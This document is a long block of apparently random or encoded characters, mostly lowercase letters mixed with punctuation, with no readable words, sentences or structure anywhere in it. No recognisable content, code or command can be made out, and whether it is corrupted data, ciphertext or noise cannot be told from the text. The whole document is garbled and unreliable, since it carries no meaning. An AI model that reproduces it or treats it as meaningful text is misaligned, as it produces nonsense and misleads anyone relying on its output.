L{m'pm$$iorbv#s|a%{ff$a$(k !h$rurp&lerosffd|g(uc %l#r"*ofpc!daf#u#'f}b,bkqbb)v&tge$dv)ntgJqkluk#p#ie{g(mjfw%naqilvbayn)d`"fh(jt#enbJegFxlbbjis}&run#fi")g'"ane~}&~olH~f~&kw km jmoiInhI{k+$s!ng%$Ngcqm"JphMxhK` ,ln*chhk`sdwfm'ciN~gK!a#gh.$qamqlb"sesoj)"g/}pv)b*twwl%skgffl#gt$aFlovk&woru#aql~l(t!!vhi$)lL)n s'b"lq)c"llidp!o$l!k`'bN)hH{jFg.fd$mbpkbjhlfgatgp|bwtkdqc`ka#z!|irvom} mlacl!`l"` b%%f$#i+~r&(fuiK#glllmqfG$l$q)lw'qlbrbasgJpn#)&vpl!( qrdwqurbve"gg!e}ilpbgna'ewvrg|``aadriG|obqoKbamds(es|brq#bznmtpfpw%fynlngcho!rz|ar%iww(qo`{yu vr`)bs#&qw%Fnfxr uet&ewvjwjqukpxiHpjN}m!b(anv""cqhqpcuif`{jKfcp$`ng&pw#iahcMxb,hfGxn/co)m&)%dfgqmds(f*do)qrqj%.)r&otoor"hcgf~gag(mso$rgmn)e"nvlil$rq&qevocr ttmL#)su(u&d%b v#%-%c-)sd!g``g)na|h'cc'vlwn!jpb#cl#lanlfioboeM fjh)|hrg`f'!`phpihl|fjxh(mn)#$`asu dfm$skboh))i&#c}csp`"~nfdl) f&f&vsc!p&st t$ff~}dbv)wgnfwurtjqw` u(sc.!d/md|$`#mg)il}d))dxkr|kdfhb(pn${"jozno{tlt#l((f!'tqu`.`vq|{tts|mt}dqv$a{luqopfmr#u|aw$het)t!o.on$#kMxfh(` jvtiN%`rsfIphJpkpa)kremwpmeI{lH'e.ffOibteokeng&g)"z$fcol*cg)  &m#sr`(n!i)qj#v{(gtwcrq"pjn!o/f#prf+ahGngNgavh rv!v|emmIqnG{%+ag%%(y%&u&'#dc()f)euhjm`o&vp$h$vm#a)r"jfco)uhMyh`nfvfvrfm)gbe g#hmkdalk*rd-`l,m#u gjabxo( kcpf+!k('gtiv|f(qotsf#$j#ovwd+"m}mlLghJ%%ql)qq#wjdslFim vf)fh%thbsnmwmhu`ga`+#wjg`liajn "hLxa,}c.qeu"wt`tt`fwg+$l!"#wfe.vomc%qc{mhG#ddo!rvkho#x}tfc~nnwaat!srk"mm%%f"#nlhtq)rhjFfv h&xo$xfjb photq&($MqlJloy%o |htvflepnlzex~g)#n&mt(gbvgH!k 'fF!ow aq#i(al+$k!}&w$q}dpvnIynlmh"ji)mjwa!u`%qur"e#}kI{nqrj#lhun`r}&v)ca(svm`)i.qn+&)o"guh#n(f$mf iH'oJ|oH~m&em$jasmfgbf`iLkhJjf/pb.o-cg|iglhc}l'ziNno*&vh'iko&ef"}n"r efw$ac|oG}gd~dfc mll  o&phMfogod#'`(lmfhq}hGtgKtj/od'wn*(&})Mmcchf( iI'oltn')aniwgof"ftag&bn }gtcwoaiz}css)f|ldkacjk!uptau&a~s"wnbatcavh%(g%`g%'gvlqu w o!oh`sg&})$ca"l|m"#lOigH(oh(df&shldk$vn(shhrmaG~iLmjetj)avqfzblrw c!lg#lg"m$vk"`k'{oplms$stm#pnf{m(`n$zo.e`tauu}(n"M&mKokkh ,flfl)y|(towihqv!tqlN! tv v"c e)s'w&$q')JnM%fO~i/ug(acddGtep%'Ohmopm`{ kJqiasjmzfscrgnm|gstnewf!vg'#cgg`pcv(m)w!sl)oig"cqsgqgdpdfOdoN)gMhk'et$ed(gImatmg($jIll"svfp!t#asbg}omtl)qb$&j'qg, c)fmw&l$im"bmxc''nwmtqobhee}ibtoefhl{i`im! tsjwj&f#$acjbrl`(pn)`bencq(hrgjma!pnu!'a'cu'mfhvanktv'~&&`cmN%b(s`p%vwi$r%ll&dh g"n`}kgvj'plrlwl`d}'a|!O~if|fL"%+bg,|mmaslgv)o)fmO~j)'o)zo(tr%owsmp})ulo"zl*a#spj.awpdwudupasi&viOp't~"wjpbfvmbr!psel~nm wp!bd$msj,tck)mfzuv"`vh()f(fm#ncwdrkid}f#`jhg%rq`,btvbutnt~dpjgv&gM#vst%j'r&dw!lgo!p$`gqb$'n ig+rm}&bchK'i`lbOyoNljJ!)wk qs'xheumLkn(ua.lj's!.u#*rd#"dvod''gfc/mof`mn` sudmkaf*`gmg lpkbp(`$dj*gagh!r$nfeg)m(pruiwwl w&lkJ"o*af*ej(h%li)fifi%ev#gmdc"'&`vaeel!udpvmbf'vjfLqoL}k'bq osi#mznu|)`nfavng{nyqf-$e'br$nd}nH!k!$nN#n%"`# sanp%fqqhsqn $h-wwpwcg$rh/)l('mimztb#~i&m&O&i$ fswc'zls"nLilG#$sq(*qbiee|ic~j(si%(iFpg-rd&pqqnr lqj#tko)gkitkcqum!lrkfd}ffnla)iJ# ud'qetiec#ntrdw'ephn&dn%}h's!dbs$geznN|ccxjJzfHy$go sq#rml kL}g"&#fgm&|' zkG~i+q%y}bfrgkedqhJ~gofn!khi|e`tdlxn-ba"an&ht$isg`L`iMjg`n)lh#l)(k!u`#rnawhFfn'r$gn/ zsp!qlq$i~tfsb%d|aqwfheeu(q}oc'"fg!ari'%mOkhK%nm)be%thhch(pikcffejcpros)e)t{dk`lfOye($g jnkKoednc%"o-'o&bnuatmdehf*&hMtn.o"r')pko& jN%h&~)c!`t#f%nfiir(gJ#fI'gqrgvuofnz'fm}m'gdj!j"{'u)nfp#ghl#$dooqik,$g&wr%`'sv{gnrmow(kKqjfpm`|gsntkcbthquja}o~}kvtnfgj,po&$&iereaim%yiIrj*mv tv)Jpl%|o&!ji|`|$pv`(pkg g$tnbenasgL~ka|fHcngfq)mpqhr!a{fmnbpgxen' o& lkt$hJ&j'yhGle(ql+`bo(u|apvdgqg%|h%!'rlc+g"nl!ul&egggfr cqhhil%qot)#`"aw ab bc"k'!m%noL~gw g#(vrkMlhm#g t(eg$kcihOojL{i)&s)ga$&Jfeqc%L"nvnjr%l`nitmbm'iuh'sefm m!mthfvga~lh-!h'yi"enjegf eyj$ofewi&gg%%oqe#ta jwp"fJlmKybu~j")oupols`j$r}"da!lqn.rggu&mcuqp'l%qb'zdl&xkFtndmmnozqel'kcq(rboNetduwm~}od|`blg$q%}jqsomu)chnes~(~ ggrpaep"v{mlnuwvtdwtl"s%at"d|h pkKhoL'lu"zlbsngOv(u&fOqnOxoklb'v`-!!tcfuilgf/doLyggli(aing$kwm`u$` ck+agmn&y fie&mn'hhIk`a&fvqf&e(yjzbdq!nlkge{ys)wtb)gt#$tr)Ojgys'w`~(owtasrg`hbcn#g'%z$dmjg/ck-$!%b&twb%m{(nv&bFodgqdeygib$t`ardb!j`cjf"fcjm&k(lm!|nv)p(!tuk!&klmg&!m% mhgqtf"n!e&I#k'"iuvg*|mskbw`aq$es ud'g#o$u`'s'j'fwkp~"p'(!d+$qm `dcf!e`ph*lc,sgsl&lqc,(l-(g~jqwb#ujzwd(#g&qcrte'%h}m$vn"t)aw"w" qfg/janru&%~pbwfeg'rs`#mlH'fHlh/``mlf!hL}aupo!pfOxm&|(srbhcjif{nL}miag!fkoujoqkifv#dfgdsgiG&k&fardupv fi`c$|g'p!jdqmhpves%h( j"${uf,cp(|f'ylie"qkewp!#%O|fLmlr i&kts`vrdrov'iaen`ug#rm/c vj`tt"%lfem% H)jd~icvk)`rl`q`abh a!aKigboi& `-"h(ek~ashicmj&#mMuf+`f/fi&af}l{v`#f#mxkF#onj&,mn/drfJloIffpl#~'w}llnI{oO~!&ag&$"KigIjj)u`-po'aovnmggdwm+yjKhg&"o.dl,mbqczolu#"Feo'$esdr/#finswnqsjdxbpgc~'gFs"~p%l%~uiwu(`r!sq(Gpl(|n%(go}e}!uvh%~fl"i&'n#"i!~svq gr`vnufidqj&~g"!f"u)jgsfmpjipokbn& {kgghlmla%&nGqdlqilqb')g$lf #ltasv$u'j ii`u`#xi)"k%wtrw"t#ukf$fMyn&|!%g)o)hw"veo)ar%gefd`dn)apom#c(phu(mc#m`gnHhnLqg&$z(el$&Lmh~`(J{gO{bNe)*gn,aolj`phrmk'liM|fO'`j~$b!g-fm+#n&{!)t|btskOxgbior'&t!%I~mJ kG|m.qg#fgbgM|g~)&KmgNyhI#!/'nigbrewqe`gj'&`Ngo%~n.fa(uf|iu dzg)u!h(jfeuwwo/`dultpmtrilrgfkc$x%viuslcu ffd`l#ml!f$e#&f#!o/vt )`|hF&jdfgexodmg cdk&'j#|iGiojhc)'`#jcib~tkdpjd|hajga}gdof"#zu`qf"d)&feomr`ehcdpf&|l/"j-r`l$vrfNqnm}kHaf& n!&w#c(ql#teayo"hj*v"t%g%qvtp"q|`#fr$%~u$Ki`pp(pf&osqmp|orqds~jHxfKxm"l(anz')flpqfskj)simrjgLymLifcqj.bwvftliuv'e!mqp`qsew|eqf&rvdFy&pt)tovfnvnf~"!us(rjgLim$yo$ {uef#caff fa$hO~oOz#rp`tsfffrnjN|h##f+ymF%)+#e- rm%fdne jmpg(bo(qlso&jp`'a`$cmgfmllfndG%cij"wo~f`f#)c}ne pd)~"ghad}gv k&}(ta"kal'`pri -p#*wc($fsm`(!foe+ben`bgh#wwabng&ngwmarhLniH~!(ewp(ssnfm&w{ffomdfaq'k(mh(q'u`a'bM}g(hlm~b%po$~&fbvgnp}`t$l)'k##zxtd(lrvsvpszwhprcs}$`}mt`veep&tunu&bjnf}fidss w% legM$o*wbw&ztj(y)e")`!'rlnr%ds|lvpk) i(usurco whhqpf{)n~(gcugekevt(pna$ftgeekcpseutf)|i$!h()d)"pg)aioOuc~nnJniFjn`&wr"wpdffKxlJ$&bk&'%y!!v%&%ga#$`$dsgkngl.}v#j(wi'`#vh'$h-cl&dcqowlc`|o lfkg#xrg/nnN}jJy#mn&w}#ugm$nJ|j"("oll-z#rs(qr(``aa%w&&rrjs(g(n{e''apt&l(!`%m!joNxmLkpkbnmwwgg!%gtha|kfskisolmb& wiflhkgha& mGpd+e/|fq"psnwu`mrl(#m!##rbb/p`ggbk"pm!w{ulwxl&q%unjM"g,`f.ah mhffianfsgp b/vuafeinJpb, j'ffnfg* nm#qiif}bc"h.~k!w)nnnnt$&ewsc{`lLpelfccghtmzwf`&afbu"f~&c~%g(`m/(l&z&v"qvgu|fK}mfho!ok"gnsb"ta'wpu a%~iM{gtsh&gnpk(hKnhI($qs#/qdmeaufbxh%sj"$mJsjwqkqqfofj'h'(!od~vgbhh |iItk)"f'qkrl)q`vrhsbf'hjLdgujl(fata'yo(nhc& rp#spf/w$n|sc(ehi"b`gf&lbg&%f#xlOgehhc% b$fdfcv|nLvjLrh&`c.pg*$'|!Jkcckk'(iI hjwxglwbfqf.mc&mi'mp)drhgIbnIyo`cfl%`f!g((i(moNzfr!b(!rpnHjg` l)lGfhi`fir)+s$khNrnf!nlvn "gptd/wer&tlkb(ic"d($d/##hcz~fi$zgewnbGpkJffasj'cprgvcft}#b&jm'ib!h'rh#gk!|`ped| w}o xfeyf*mi%v)'tml$'kO$j$s"b'g|!d%oeliu!!zd!ubn!{nKpoglmfhqraf'ocs)wciFhgfsi&vk,&`&m`r(d&it~i&cnGql)ak'dlfndklwqcsa$Mg&`rm'omiwa%t`#u&bjhbte~(o&v$qa'oeb$`rqh~gi~`aHdlJ$hNoi+d~%kd%mLlgwlh&&qnflfmvfIgfzmJlgjbr)ir{hu)fzb&nc'lgMkam$`qm.e riwbcv"dbmfdvb#`&'n"xkM)okepm!ghh"(iblj('lN o'`zww(ps'mmchiIloio+'jmnofufohup p&#eefF'n,rcu'wta'r(dk"`g"d jfyjb|m)qepgreecr lp#F{ jtlns%gdkfpgff%h~o |e`h'm'mvnlnv`cv&fv'va#m%l&ta'w#i&a}jpu%t$$af%GpmIjkaqg-g`hftr`Ox!wtaK{mlo%t"g"e/#oudt|imtg'el)yi'wk&'m(cg$gmvoph``xl `ih`&x`'ozugzpgq|ipigp"gN%{qr)o#p'dz)hcjsu t~&g`vufdv!qzlhr`xu{ulsu`(qvnjskjbt'dfka{diF&g#fasast~!kj`vbpoheldlsgtjh)}qpo!)$aojc(#ah`tgcImo+g${ifuf"iq(l$ gLie&bf'pn(uqsopt`"~)~lhL#h'io&bi#h!gl$fkbn(br#mbabp#'&oufggl%vmwpraghbgh"d""s(nafl.el-$!&d)wpo lk(lo'lfwjqt`#g"`oO&lka(,`g-mwp`%fsw)p'dbp`G%'h~fwov}lvwnvu%cu"m)l"lnGjl+'wb%eaeMkcq%K&mNnoG 'up&/wfgecqobxh"tg(%gOpa/vd-ru`w hvl&uln!zkkirfq`vpd&&$n)"fhzqg%whwpc)!o){g|rn*$jr'o%%f&rspr(mrnr`silbzl,ud%'o(s$,snnqe ecl&v!&gxe-`mscb%}"sgd&bv"bvqnL}mdql' ngzh#lncq%lepf`qbcxa/cg#fk,hu)dwmaMflKpncdk'dm)c'%k#vl)wnmrkLfk/s)~gk+)pt&o#xhil!wk`wq%)%J}nOnmu%k&xnqpeJyeKd&+lb)dmnaeu`rjk!ehNqfM)`(mo('uamshf'|esfm!%n)pwq(b*rtq`&siflla%e~!fJidwl%sbur#dueuj r$"vhf)$kK'i!s(`!mt(g"hljdt&nN!gF!nv~cquoiot ngto&lek'h x$tLnmMkm+sn*ql'gdqdemdepf)xmGnm/m en"m(a("o" l*s$&m}gH"ofnnbyoL(l(q&k})tlfpcfsfL{n&!#vyg"$'qvewpurd~l(ec#`}oorgkjc(evwra|fffa`pkHykl|kM`oigr$ltzgsp%g}kfyhlxosfh.!n/!ggw'eF!l/gGh`)ewbcs`)"k)`k&(osgtr'w g"jngue"pnppj~iM}iOpm(g)`gu!)a}frbrogapgLkcu%ohwi'|{$kbihO{d'jjKqa-bj*g!)(ah`{oat(m'gi(vqum"+(q'htmjr&ifgnsmbm"lth"ualg!d&h{fhhivfj+$o'zn)edhhlb(gql fclsi#~( t((MxlH%lI~k/|` o`gfLthw!&I)mg&fbim`llfnbH!blk"pmwoad!!gwkrhigslizg*fj(()fgp#goo vgalg#)j$(ftcvto&pjcgn)#g)d qsc#{)sq'rq$lbuc`r'zihvcvwuwhq}m&u'e|$mvm(zjHmhN#jw(whcohNq'u&nMlqiaqibhgapdlkn $pql{o e!)ddmewszsu{vhuscwt$e{it~ducfw&ptbs)idu)t(o*jk (hHch#`#ktqlN&f~qoHfHphta%fnmqqnhKpjF#`-fnGo`pe`lmfj'a&"t#afll&gm+!!#l(pub%du(as&aJk`mugd~ooe!whaq`c!oadkg{wfvtlsrdqi%qsgJq"wu!qjbepkdvs $p"$)dd)$`)i~jilbl'tu)i'sl(d)z&jacn&viN}acgkubutf`&hea%f&jghecoi'wb(bm*d'v$`lcdk("marg')h&#iwlvvo'}lvrg%$g)~o}sg& jr`)ro v ft u(#wog.inl~v&#spmuhew(+t .qd%%func'(lgo)lnfadgm swe.qd*pgr"sveqvdgum+&l '&wfb&efg&|ltgaL)i`f"p}lfl"quumdmnp`ctu"upg$dk"%k"&nfi~| rhhFzjq g)j ohd qlftq&  MzhMoit#f%{lx}ovr`yl~'hdacar`!to.g&ummtp"p"da&%a) {fbp"dtrnsg% j.uurrfh&v)ol)gfyo$qo%ysw'a(}nIq`yqh&enrmguq(&m`"u}h`%f)e) (m%awl&n g#ob(cO"oJqmNpi(f` kbrmlhcf`hJhmFfo.qf*wf+mn|edii`tf.yoHgn&!i.bk(daumzfnu($Oem!#`vm{/(fooumJ}jN{%g`&vw(veb$iKh#$%omf&| G}hHsl,o`/rn-" r"Ffianf+%iJ"josk-)ghopj`c'fqda%di qovfvlwfpdsqgqp'lzmbfbmhl%tppes&aq}!{ncgwcdwb!(g `h(!mv`~p!~"m hnm}`#}m'%l(qttw$vt#}ie&jOqm&|%'j)o'fmghdk`tpdv#f*wplg`moFya)(o"h`e%hf j)wh#mj"{dqnms#tph"o`}n)`o&}n/m`~`ttw)n(I%iGohfi%)fnhe'vp#tkughuq)wpfJ)"r})v%d)g%~'w!"p()HylI'jGyj.|d%gebcK}bu%&OmgOxgL&%*&cfafrlrycmoh %eIjf q`nt}htqhjdf*}k&$%nfwtianh!pmMsgqmbwlbMloF"fKof,ls"kg$gKhasgi &jKil$wvnr&s%dsff{llqm,vo&(o(|o/ c'`l|"g(ib'ha~c*"aqjrsjemdewh`vlbgobphgjj''wpo{o'`( cdddrgbldda!yi'!g&ulf$u}nN|gmvlKfnbf"eg%f))o(hkKper!f)!rtoJjag(klf)mo"f#ofpjdtm&vc}crcagw"mp(Lzcf|lJ% 'mb)}jnhjgs(j#afNyg#(f$~l!vv dzveqr&~lh'{m.l'puo)grugsufwuiqh&u}fJ~$st wkpbcpmbs)%wv#ufoKnh'yj%(u|he!gmgf~(hg$o$qd#vmo)qjNpjbikflp}cb ofr"sbjtwdt~dr{hsld#nL!{vt"g#t%ou#omj&r)eaxd$$i%kj&uav%bafI"gei`H|lGkiJ" t`(rs#tmlvoMlo(t`,ej&q#-s'&}a&$`|im!$mka+eckd`jk)w}aee`#la}lbrnGkfLx$)`rw&u|igg&qzio'kg)kiOf`c'`swh*m#soumgq%gghf%jn"gnai)e| dlclp()!gvfefm#u`urola(sfiJqjIug#bt$irk'e}kq|"lomd}k`|aqrn&%e/gq%idwnJ!o)!mO a%&f  wlgu%av|mupf"#n,swpu`f'qkkwsl{&mu%fc}dbf`qv$paa!ftlbbiekoqabr%fq)p` b%f%}`&q#h'crjur#c&n&~ssev'jrn!rna$xmfmsjvayt`)cvjem}negoe eJ#)r`(mqncg#o~whr%bvfo'di"~m(r'lcu)ilyfF|h`ynMqiF#m`'rt$wlf&hL~l #%n`m.z$&up&cba`"w"'qplq#a+hwa$$shsr$sihplk`w&n`ngqfaH#f'`cvewqu!moh ek(l)(o)wm'udcvhJmn/!tgh.(pww qos#mqpgra(bfxrnkmcu'uuie( fa$lrf& jJhmM)`l"cd$wglai&~nffohglbuey#e.|pcgfhiKpf/)k(oboco)!gh)ziefvc`!m*yk$u)gedmq( ffi+ej-n`rkv`)k(exhJ!jlk',ea,gmO iF&bsvdxsafjq)ncvm!`ol'f&)q)akw"`ge%%bnmvfk*"f,|v$n'yvtddvogu(kFykd}nexisgpgffucwsdasm~|iq|kgmj){m"%)iavs``lh%|mKuk(!l#yhqm"sdpy`qdg hfNmfwnj(a`|j$f""m$~svq)jsarctkja}j.a(#m$riezlcpmscn+'o.t"gkv `K h+poHj`,|o)ddl'v}csreaql$|j&!(}mc*l&oh$tn!cfgogt$etjgjh wiw!)c!ew!db!fd&m.$i&nkLyev$c%!wfHhim f%zoHikibcfv'-t(meLpol!nfpl!!ipu{bOxaHe%)gn'fmolmp`qmg&dnLqnG)gfg~oo-#h({l&deleaf(gxl&fclrn"km&'nc&sn lrr#iKflMpoytf$"drq`hpbk"tt$fd&fri(qfi~!edtss$e%wg&{do$xnJ}mgflfj{rdg#fm}&vgkJnklun'}g&$n%fn~)d#h|m-cmJzn*`n!fl!l%b(&n$(j)w&$mscL fmooap!ar%brk&qmJknG)f~#uf`~fhI}#t#hO}jO~jgln*uf/(%vclsf`ih(ahGqhjcg(ahuhd&o{oe{"h"bm.eakh)u)`on(ma#ndKmdb'dprj,c xlzbhs"`ejagwet%`%&o#qnF#kiopa cnh""i`jo& tj~|hvzhMyoHqo$m bbr) mpmtarlns&cv eNn`bsic~kof'~katf` lemme agnk-un#gh"qcx%~"#q}f'#iamf/ f "kfmvw`"w`(g%F'g#)n~ve-ynvhatn`q(lq&rf$f#g%}a&$n eq`zq%p( fm!I~fNhmgxn-mmngsrgJ!qr`H{'`a$cmmjbkgmlbG'afh(tnvgde)%d|`"|n!s!cv"~ "snh&lcoqq &usdqneud"w}h$glG!fHhi&ddlng"mFpevpk$qhFpk'r"p}nh~ajjf{jFkjem%ilkumhtglf(dch`rgcN&n#gn~osyw'jnfu`zimckbeqoqgk"s{ti"$$`lol))bguvs|qqtfrwirr(f{ovscrcat!wret qfrudyot#dffbepb%ri/b&}kgvp'p$fofm%#O(nb~icvn'mzmmpaefg%d"fMjbekb!#n)(m)bopclffnh,"kHrm-mo+bm.mg|iuvk)k!bqlI lln&+fo(cpqa'~cv|#r'hatcI' mtbplssdv}e~tv'$t$ 'da&(f(ehomgh-tq&i)vo&l!k(cm)abqasfks%)Hbj#&au`z-%aibqsot}i`hsoh"iLu#rs(k!stdwp&cq&wu)Gpk&~g$)ngqar&t}e'~je `"'k$)o"~sxq hp`qgtigdyh.pn!"n#r()~ejpl"oea'r&$mqn&amwm`(}&tla&)xa(pet'{|fzselvh(#f)%)|`e,son~i%$h'uqvt&wv!tdm gHyh)r&&qh/o$jp%ybj!dq%fdelcfj eqeg#a!vdw"lf"ldikGhhHph&!u nc("Ofitl(M~iJzcLe",ge.`nljb|epkg cnJ~oN n(co*)rbeukb!rjqgo !i/wuq d'ttu)mf#jire$ya%s|t&i(~jI}gprl!gosilH{nG(%)$dog`xlv`bjg%"fKho%ta&`a(ucthz#`pi"r&l,pjlcz|tb/df}atseq}ifqa`md&~&uhqqnar)aid`h"lo&d!d&)m"#i(rw#)ctdI!ffjkaymL%o#q)hu(wonre`pnHzj"$!q|k!((xFukG}j,mc,ue(&%q$Hkianl'%lO"mkpcbjeapa'{o(&g*|ff%wkG{mmsgNdi $n#)s e'|j$eepj'mi'|%r k)wsyu vvl(gp&%s})Hmdt~$vcw&aumw}orvisyiL}fHyj'`)md{))bzhufsinc}jOln&cmrk.sw)imodKqn&ooNxa&g!o`%l&tg"al |ftnbs)~qg!yme~g*&!tw'tfhHjk!xj#)vsef'fmogt(cl"gN}gFq#p}cpwnk`tkoHph()o/{lN$$* c&$sg&fbog mgro/bb.}esm#npc!dm%afjhfojafhG!nma rhqiem%'b|nqlg`wij}i/lj'%'las}(`gk#wiakh$wmhtgdFalI'mGgk(bt"jl&iKgbwmg&cdd#ngqhmtiFgjNq$%lzr rqo`c"ppiglhdkfw#k-el'|#t``(iOg#glgpa#zi"z%i`thktqav)j'$l%(rud(errtwq}tqopua~}%f}mr~nudau'zpd{(el|$~'h*oj& gLqff(c#lrfN(dqqnNao$gh"e%klpl`vm)wgvmvbdg}"dt"Njhvudq(mq"fbracfnrq&raa!avngmieprfr|g.qk%$j)&g%"u`"gglKvcvmmInhGfb~l(q y|`biFpjJ})'bg$ %v!#x&(%gb$)`!luigj`n'pw!h%ua#f"u kalg'poOpbdkosezpmb$jcd)d!lfz~fvvep}dphbv"oK)ztw j)~$ar!jRvq&xq&aale'p)(uvot e/hpa$(ujpq)b%#e"k&hjL{oNphvedglpsge&"`umf}fbvmn~cmad.!uifehk`hd#!nJ~f'za+xc}(q|n{rbgwk))n(#"vmn*wglo!qgujbH&gbh%u|joh p|wdd~gesefs ol'njcn#br)cbem}'-#n~bemi t`4mld/&ek#tfkc}``%m)|h)w#keohu( nrpd{fjKuddmhbfgrezpfm!asffp$nu"hu!l-ei&(n(#u%~pcppfK|i`mf(li!hfxn'r`#qvs&a"pgK}ep|o"bgwh`qw'q&fb'sjb&g)u`&!$g#epk!l$do*wd+vsp`z%lzk"rjc&{olhsocvs7+$g'pjsi)u`uumvlg$knNenumf(goqk$xn!jbm %u|&stl-t#fpte"`k`&ailg%maj"'i$jKncmja! e omiivshJtiKqj(i`'sg+! q(Koedon*%oK!fgpm,&bmlqfcc cpff$fl(ynwosnsawlui%dh m# `"vb rnmwgJni+s'~bk()~'~kIjnjabkr)-s%miK|fe(nn~l "hsun'~ou$qemg&ka#g&!g'!(gczwrdl"qjmtl`HxiInjdso,as|dqcmuu$l"k` ha%o tn$ck'{`sedt!u}l'}ogpj-ef!~l+berl{uq'l"M kJfjnn)/bikl(kH&oI"gsqduwggat"g`qo"cdg"g ~xKimetf)pf( b!dbv"m'hsg+bhMpj+`i clf`amg{|frl!Opo$bvj&kfowf%wd%r'`ggl|gr$f&q)qa)kgm&dt|d~gitmaK`jN!gFhm)f%dc!hInbrna!)gNfg#qzgt)p!nvnf~jc|m+sg(#n&ufoaygl|oybj()i'v%bjr$iN'j&plMgadqau&c#'i%mF)oolsg$`nf!'eaoi"&lN"g*lzq}%p}'miefoJogkpc-"oliai|eomss$r!!edmI c.vgt)u|i)s)bg ef)c)hfnawh$uarep`ces!ar#KximqiO%$(dc/lkivmes$k'cgKqi&(kb~fatlo+$j&}j%ldhaga&d~n)fhlr_q'&cf"J~nOgjmn(``hdtpgH(~|iMzjazn'r(j&c('n~lv|mfpo+bm$ph,tn-$m'mc%fc|a{kfdxm!glnf%xto-gwpgvperfvobr$fJ(sss%i$'o{$nbl"q"acp`&&n#nk)wfv&mliJ"nbfhJqk"`q'gvg)~iMnlF!gs%zhcrnhFr#p'6mr`ulm`ibb}nqoi'}rsa!#"dndl$"doisibOce+|l&~mhqa"ep i( lHnb$`f&yn }vvjtvn$~%rjmO'f-jo/mi)m(ii no`m"gt)blgly#*$c`mml!tbqsnfc wkkF~oGuk$ds hvi dqjs}!`nldt#gu$cKmicqcdpmha%v`lpf`!ncezpwj%~cpw (gbtgJ%#lqcve~}esvjww"cw&c$m&ikHom()wd a`aOpoev)N)fKogG%#xv%(v`j`mugaqj"~f!&kKtf(ve+vwrev%kzk(~jn&}hklvn~nwpb)lrgna|gmlml(gM$'}l!~nthge%bsudg&vk)q'es!#%uoh)iomru'!wdtgX),pfh|b(emc!r"&`|d+lgqda"v#s`b%gq%`vpkNvlbqj(p#j`tg%`ohu mm}he|beqa.dg'`f*os eqidGdnG|j`do&el&` #o"sm#p`ewfHgg,w#rfk)(tvw#pmw&iprhpl'cqoy}bifb} v}ab!$wnpwavd~(jmgffsf&wk&g$rnlpq%rla&ej+(qdmria%tdpnm&)j+rsp%n*rtqh"sj`jhe$hv!cLj`~i sg~q&bwdwn!t#%tjk&'kN n)p l(gu%b ggjiv!jF!fI#fuvgyscgiw!ldrh)moj%m&y%w&enu!aic!'gkehj(%m,}p&n'xqu`f m+bg&bgqfrlk{%#Iej&#cpbz&!bk7iL)g(p(lw&sjorggumLzl $&x}o&) yqoqprphw`!ga$aqlfghnb(cpqplrabb`dvlKqnlqmHmdj`q)ow~bww(`qjgyoaqltck/$m*q%lgv(`F&i+qkNhg)yk.lan#u|dqq`dtm&xo")%tag.a)m`m')g%r{wr'ss |jm!jFxm.p"$h(thgnHjdr#njrk,|u lcidJ{d,jgIpg*lg,b$&(clasfgp&n/gj(rq}a&)'u#luiir&oeniwmg`'lwk!|acm)m%lvkgqifshm-!g qo'cnh`ge&dpo)kidro'hn$(grd&pa$mvu'jLmjOqorrk #fspijLqlN&%/ ckgcrg~|fbff$(dJom Wjrjgarnnpk(gl(" fbw%ank)skcji'"l%"n|fps`$rkmfj#"n"e&wud#~"rw(w'egp|emr(vzfisbpwupitrd(q&gp$esl fFfkF(iu$qkgsgoHu)q!mMulLqjljn*qc/(!tidricli&lhOogaqgbidfxd ym* h+vlo)sskL|gf}nFpddr's#h*no"%gKpfm#e is|fI&g~|hFqlL{mwl#frchusiiKzjI"g/akGm`ugbhcfi&a&!{&odgh+am+'$(c%rre)ns"au(aHlelpidyoga'woevg`&mflib"a`lk)pj(bk"}fx'w")wti((mcfk)#' vu(snlJfh'|f "wvid!aegiu$ha2$v!obll%voJ{flkoqcstdg#jce"`)kefddml&q`.df&e(u(gl`b~i!)odqg(%f."nhzpf%}ns}e' f%{at|o,(lqm!si!}#bv!v("pin,lfjuw#(vsgqnitl!v|f#`hM&kKkl'gldeg$nKy`}l!{ddf)egtoevkInnG"#g{p'uvm`f"sh`"w`qleN bmm"|lmk v|smfsogsa`ts puo!lk#$f# bjmtq smlFxht'k"yn)gna'yhor~'$#FgHffs(k"{gywbr~owk&jfmelwb$tm'g#qkbw| v gggf$&H%md|kcvo'nuldzbelf"m&dOofmtqgt)or$ectcfmbur$vdf"eukb`lnbpt p)bc%tpif#o+wc,'"f%dvi$h a$if(cN#lG|hIph(le#depgdjd`ghMkfKlj+vg-~o)cdwelgblth)xgIgk')h*ll/`fq`zojw&#Hal "nyep*$`k`pwop|ef|evgbq)iOp'vv%f'vqerp&dvt~%sw!agbe"t''qsmx%d)kuf%#smp3k'"egeqhea'ludi#ef)p`sawiesm{rap}$ffcfb`mo"|wslv%bt%qlemwha}d)%m'gf'(mvdru"v$j(kl`rd pl("m$|ssr$qt'vld"mIqk+q#'yl+i)h~%q`rh)l|%mfgmebi'eee&f!tdr fc`)%nf(whiavbg o(qj)s(mbejq)mdf!zn&fbvatru!k#K'nKmkgl',lmjg vq xn~hip|'upnG%!uv%u(e"c(v'$'p$'J~hG%gL~o(wl!aeeaO}gu$'IghKzlF&&,%bhbeybvzd`gi!"cLjf%rn'`b*rl|mt)gwj!v#j*klgv|wc/al|*!j }lwj#ugsy`pmm!inJdaki&da{'kFjh&ppnv(q&avbfzmdpi.wn)#o'pf("o-ag} a h`)bb|f)"grj{skdjmlqifsobioliggm$'wpnsk&f%'egmb}hamaf}b)}g/ f'}mg$sroKzmfukMcf #j$(z a'}h"soe{m$nf,v!w#h"wtu$ygLmogdcos&,v!fiIrh`(fi~k%!jM}eeumL!#'db'~mmopofs#m'cjHpj !n)|i"s{)epqcwu!vnh'o(e ssj&lvpbpterubqj#t|`N|$uq#sjsb`vkf~ $q}&qjlHhl"{h!)tpkd#fdnfq$df&fF}fM~!uuavrnfavmnFug %g(|kL %)Hkkbuo,si((o)eav%l(etg/fjGyjaj%q'`fpb(#h%hm)rdt'adhL)gbleH{jIjlO #rh qp%pdbrmGim#wn'lk%|"*|%&td'#d}of$#`no(gchcboi)tslbnf#ilqoa|jIooG}''mus(vuiea$vxmbnggnfw&h&fh/s&tgb&fMqi#lig}`&ephq!i!"j$iF)flntf#eim(#icjouuhcf%vnjIxgJ}o'c{%dsl"fpfvs'coo`sf`xgvvb(%f)mr md|oM(k  gI#g "g%"pmow#gw|d}f 